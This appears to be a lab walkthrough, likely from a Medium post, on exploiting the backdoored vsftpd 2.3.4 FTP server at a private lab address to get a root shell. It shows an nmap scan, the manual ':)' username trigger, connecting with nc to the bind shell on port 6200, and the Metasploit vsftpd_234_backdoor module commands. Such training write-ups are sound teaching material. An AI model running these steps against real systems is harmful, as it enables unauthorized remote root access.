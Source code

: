 **Aim**: Exploit VSFTPD daemon and obtain root access.

Scanning port 21 using nmap.

**nmap -sV -p 21 192.168.10.10**

![](https://cdn-images-1.medium.com/max/800/1*Of0PxfY9pvE4lPOyeAFDjQ.png)

port 21 is open and using **vsftpd version 2.3.4**.

Searching online for the publicly available exploit for this particular version.

**vsftp 2.3.4 exploits**

#### Exploiting manually.

**ftp 192.168.10.10**

**username: — ehsahil:)  
Password — Nothing just enter**

PS: smiley emoji **:)** is important at the end, :) it will be used to trigger the backdoor.

![](https://cdn-images-1.medium.com/max/800/1*qrgde171Hc6T7nlim43vRA.png)

now, we need to listen to port 6200 because backdoor opened the port 6200

**nc -vvn 192.168.10.10 6200**

![](https://cdn-images-1.medium.com/max/800/1*rAvIE8pUO8BPMewKrvZzIg.png)

#### Exploiting Using Metasploitable-2.

Start Metasploitable-2 by using the msfconsole command.

**msfconsole**

![](https://cdn-images-1.medium.com/max/800/1*7tL7qP4ZT-SYwmXY9BSOZw.png)

Metasploit Commands.

**search vsftpd**

**use exploit/Unix/ftp/vsftpd\_234\_backdoor**

**show options**

**set RHOST 192.168.10.10**

**exploit**

![](https://cdn-images-1.medium.com/max/800/1*1iUcAFYC7pXzRc5JSY5vyg.png)
![](https://cdn-images-1.medium.com/max/800/1*wfO2xrIQn1n3z5f4lGDyRA.png)

**Background:** This specific version of the vsftpd was infected with a backdoor by an intruder, the developers quickly responded by deleting the backdoor from the code. the users who upgraded to this version were vulnerable to the issue.

the backdoor is initiated when someone adds **:)** (smiley face) in the username during ftp handshake. then backdoor sets up a bind shell listener on port **6200.**
